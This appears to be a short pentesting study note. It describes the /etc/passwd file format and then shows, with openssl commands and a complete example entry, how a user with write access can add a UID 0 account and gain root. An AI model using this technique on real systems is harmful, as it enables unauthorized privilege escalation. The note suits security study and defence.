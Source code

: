 # Passwd
***
/etc/passwd is a plain text file serves as a repository of system accounts. Various command utilities reference it to map user IDs to user names.

## Format
Each user on the system has one entry per line.
There are seven fields separated by colons :
- Username: Used when a user logs in, limited to 1-32 characters.
- Password:
  - An 'x' indicates an encrypted password stored in /etc/shadow.
  - Some Linux versions may still store password hashes here.
- User ID:
  - UID 0 is reserved for the root user.
  - UIDs 1-99 are reserved for other predefined accounts.
- Group ID (GID): The primary group ID (found in /etc/group).
- User ID Info: The comment field.
- Home directory:
  - The absolute path to the user's directory.
  - If the directory doesn't exist, the user's directory becomes '/'.
- Command/shell: The absolute path to a command or shell (e.g., /bin/bash)."

## Exploitation
If a regular user gains write access to the /etc/passwd file, they can exploit this access by adding a new entry following the format mentioned above. This enables them to create a new user account, specify their desired password hash, and set the UID, GID, and shell to root. To ensure a secure password, the OpenSSL tool is used.

```sh
openssl passwd -1 -salt <saltvalue> <password>
# OR
openssl passwd <password>
```

### Example
```sh
openssl passwd -1 -salt mysalt mypassword
# the output is: $1$mysalt$JyKGOJR1343sJ7N91hXVI/

# add a new user to passd
myuser:$1$mysalt$JyKGOJR1343sJ7N91hXVI/:0:0:root:/root:/bin/bash
```
